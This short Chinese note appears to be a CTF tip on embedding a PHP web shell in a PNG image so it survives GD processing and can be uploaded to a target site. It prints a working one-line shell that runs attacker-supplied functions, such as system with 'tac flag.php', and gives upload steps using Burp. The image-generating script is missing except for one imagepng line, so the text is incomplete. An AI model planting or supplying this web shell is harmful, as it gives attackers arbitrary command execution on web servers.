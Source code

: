 木马内容

```php
<?$_GET[0]($_POST[1]);?>
```

imagepng($img,'1.png');
要修改的图片的路径,1.png是使用的文件，可以不存在
会在目录下自动创建一个1.png图片
图片脚本内容：

```php
$_GET[0]($_POST[1]);
```

使用方法：
例子：查看图片，get传入0=system；post传入tac flag.php

注：
运行上面的代码需要有php的gd库

下面的代码可以检测是否有gd库的存在

```php
<?php
  if(extension_loaded('gd')) {
  echo '可以使用gd
';
foreach(gd_info() as $cate=>$value)
  echo "$cate: $value
";
}else
echo '没有安装gd扩展';
?>
```

如没有
把你PHP目录下的ext文件夹里的php_gd.dll复制到系统目录下(C:\Windows\System32),然后修改你的php.ini文件,找到以下位置

```php
;extension=php_gd.dll
```

把前面的;去掉
如php.ini中没有extension=php_gd.dll，自行添加即可

将生成的图片上传，bp抓包
